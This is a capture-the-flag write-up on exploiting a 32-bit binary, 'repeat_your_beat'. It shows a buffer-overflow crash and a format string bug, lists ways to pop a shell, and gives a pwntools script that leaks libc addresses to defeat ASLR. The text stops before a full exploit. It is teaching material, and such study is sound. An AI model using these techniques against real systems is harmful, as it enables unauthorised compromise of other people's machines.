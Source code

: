 ```bash
euan@euanb26  assets  ./repeat_your_beat
Let me repeat your beat!
 You go first!

%p
0x256
^C
✘ euan@euanb26  assets  python -c 'print("A"*500)'
AAAAAAAAAAAAAAAAA...
euan@euanb26  assets  ./repeat_your_beat
Let me repeat your beat!
 You go first!

AAAAAAAAAAAAAAAAAAA...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
[1]    29412 segmentation fault (core dumped)  ./repeat_your_beat
```
Correct, so we get a SIGSEGV and a format string vulnerability. So, what are some ways to attack this? We're only dealing with the stack so we can't attempt with any heap exploits. So what's available to us:
- Due to NX, we can use ROP gadgets
  - ret2libc - just calling `system("/bin/sh")`
  - Using oneGadget
- calling `mprotect()` to make a page have permissions `rwx`, therefore injecting shellcode and gaining a shell
- Abusing `printf()` with its `malloc_hook` functionality
- Write, what, where with the printf vulnerability
- Stack pivoting to our input to a ret2libc for example

I don't want to bore you too much with a normal ret2libc attack (well done for getting to here in the write-up though, it's been a long one). I think I'm going to go with calling `mprotect()` to make the stack executable and provide shellcode.

One thing that I forgot to mention - the remote server is probablty going to have ASLR enabled, so we need to use an Offset2lib to derandomise ASLR.

Using a fuzzer, we can see what we leak:
```python
from pwn import *
context.arch = "i386"
e = ELF("./repeat_your_beat")
p = process(e.path)
l = p.libc
rev = {value : key for (key, value) in l.sym.items()}
# Flip sym:addr dict
def exec_fmt(pl):
    p.sendline(pl)
    return p.clean()

for x in range(0, 256):
    l = exec_fmt(f"%{x}$p").strip()
    try:
        l = int(l, 16)
        print(f"%{x}$p : {hex(l)} - {rev[l]}")
    except:
        pass
```
```bash
euan@euanb26  binary  python3 fuzz.py
[*] '[some_path]/repeat_your_beat'
%2$p : 0xf7f2e5c0 - _IO_2_1_stdin_
```
And if we also try a ret2plt to read some addresses, we find that puts is located at `0xf7f3db40`
Let's put it into [libc blukht](https://libc.blukat.me/) and we get that the libc version is `libc6_2.27-3ubuntu1_i386`, great! We've now defeated ASLR.
